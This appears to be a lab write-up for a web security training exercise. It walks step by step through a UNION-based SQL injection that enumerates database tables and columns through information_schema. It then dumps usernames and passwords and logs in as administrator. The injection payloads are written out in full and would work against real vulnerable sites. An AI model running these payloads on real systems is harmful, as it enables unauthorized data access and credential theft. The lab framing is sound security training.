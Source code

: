 # Lab: SQL injection attack, listing the database contents on non-Oracle databases.

- This lab contains a SQL injection vulnerability in the product category filter.
- The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

- The application has a login function, and the database contains a table that holds usernames and passwords.
- You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

## To solve the lab, log in as the `administrator` user.

# Use Burp Suite to intercept and modify the request that sets the product category filter.

# Determine the number of columns that are being returned by the query and which columns contain text data.

# check columns
```
' UNION SELECT NULL,NULL--
```
- there are two columns.

# check which column contain text
```
'UNION SELECT NULL,'def'--
'UNION SELECT 'abc',NULL--
'UNION SELECT 'abc','def'--
```
- Both contains text.

# use this payload to reterive the list of table in database.
```
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```

## find user tables
- users_abtzap

# Use the following payload to retrieve the details of the columns in the table:
```
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abtzap'--
```
- this payload display all columns in a given table.

# Find the names of the columns containing usernames and passwords.
- email
- username_uusmxd
- password_hlcowd

## To retrieve the usernames and passwords for all users
```
'+UNION+SELECT+username_uusmxd,+password_hlcowd+FROM+users_abtzap--
```

## here we go, we get user names and pasword
- administrator : 9h7kg228qoj2nhy8k7l7
- wiener : muo8vr1d7lingkdqut7u
- carlos : 9ybdmm4nq18kamujgdos

# Login as a administrator

# lab solved :)